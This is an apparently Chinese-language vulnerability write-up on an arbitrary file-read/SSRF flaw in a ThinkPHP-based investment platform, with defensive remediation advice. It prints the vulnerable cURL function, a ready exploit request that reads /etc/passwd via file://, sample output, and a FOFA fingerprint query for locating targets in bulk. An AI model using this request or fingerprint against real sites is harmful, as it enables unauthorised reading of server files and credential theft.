


某台新股投资理财前台文件读取漏洞
======================================

> 本文将以通俗易懂的方式，结合实际案例和图片创意，带你了解一次真实的前台文件读取漏洞（LFI/SSRF）安全事件。无论你是安全小白还是行业从业者，都能从中收获实用的安全知识和攻防思路。

---

## 一、什么是前台文件读取漏洞？

前台文件读取漏洞，指的是攻击者可以通过网站的前端接口，读取服务器上的任意文件。简单来说，就是黑客可以"远程偷看"服务器里的机密文件，比如密码、配置、用户信息等。

### 1.1 生活中的类比

想象你去银行办业务，结果柜台小哥把保险柜钥匙直接递给了你，你想看什么都能看，这就是"前台文件读取漏洞"在现实中的表现。

---

## 二、漏洞案例背景

本次案例发生在某台新股投资理财平台。该平台采用了PHP 7.3和ThinkPHP 5.0.24框架，前端为uniapp，后端接口存在严重的文件读取漏洞。

### 2.1 受影响平台

- **技术栈**：PHP 7.3 + ThinkPHP 5.0.24（调试模式开启）
- **前端**：uniapp
- **漏洞文件**：`/application/api/controller/Index.php`
- **漏洞函数**：`curlfunS`

---

## 三、漏洞原理通俗讲解

### 3.1 代码分析

漏洞核心代码如下（已简化）：

```php
public function curlfunS($url) {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url); // 这里直接用用户输入
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    // ...省略其他设置...
    $response = curl_exec($ch);
    curl_close($ch);
    return $response;
}
```

**问题在哪？**  
`$url` 参数完全由用户控制，直接传给了 `curl_exec`。而cURL支持多种协议（如 `http://`、`file://`），这就意味着攻击者可以让服务器去读取本地文件！

### 3.2 攻击流程图（图片创意1）



---

## 四、漏洞利用演示

### 4.1 利用方式

攻击者只需访问如下接口：

```
GET /api/index/curlfunS?url=file:///etc/passwd
```

服务器会把 `/etc/passwd` 文件内容原封不动地返回给攻击者。

### 4.2 真实返回内容示例

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
mysql:x:1002:1002::/home/mysql:/sbin/nologin
```

这些内容本应只有服务器管理员才能看到！

---

## 五、技术栈分层与风险点（图片创意2）



---

## 六、攻击者的渗透流程（图片创意3）

1. **目标发现**：利用FOFA等搜索引擎，搜索 `title=="安盛"`，批量定位目标。
2. **漏洞验证**：访问漏洞接口，读取敏感文件。
3. **数据获取**：获取配置、源码、日志等敏感信息。
4. **后续攻击**：结合其他漏洞（如文件写入、反序列化），实现更深层次的渗透。


---

## 七、漏洞危害与行业影响

- **敏感信息泄露**：攻击者可读取数据库配置、用户数据、密钥等。
- **横向移动**：进一步攻击内网其他服务。
- **权限提升**：结合调试信息、其他漏洞，可能实现远程代码执行。
- **大规模自动化攻击**：通过指纹批量扫描，短时间内影响大量平台。

---

## 八、防御与修复建议

1. **严格参数校验**：对所有用户输入的URL参数进行白名单校验，禁止file等危险协议。
2. **关闭调试模式**：生产环境务必关闭Debug，避免敏感信息泄露。
3. **最小权限原则**：Web服务账号权限最小化，防止被利用后造成更大损失。
4. **定期安全审计**：代码审计、渗透测试、自动化扫描，及时发现和修复漏洞。
5. **利用安全工具自查**：用FOFA等工具自查资产暴露面。

---

## 九、总结与思考

本案例充分说明了"输入校验"在Web安全中的重要性。即使是常见的cURL库，如果开发者疏忽，也可能成为攻击者的"后门"。随着自动化攻击工具的普及，企业和开发者必须提升安全意识，将安全左移到开发早期。

---

## 十、附录：图片文件说明

本案例配套的 `/7_files/` 文件夹中，包含了漏洞分析相关的流程图、技术栈分层图、攻击链示意图等图片素材，可用于安全培训、报告展示等场景。

---

> **作者：资深渗透工程师 & APT专家**  
> **声明：本文仅用于安全学习与防御参考，严禁用于非法用途。** 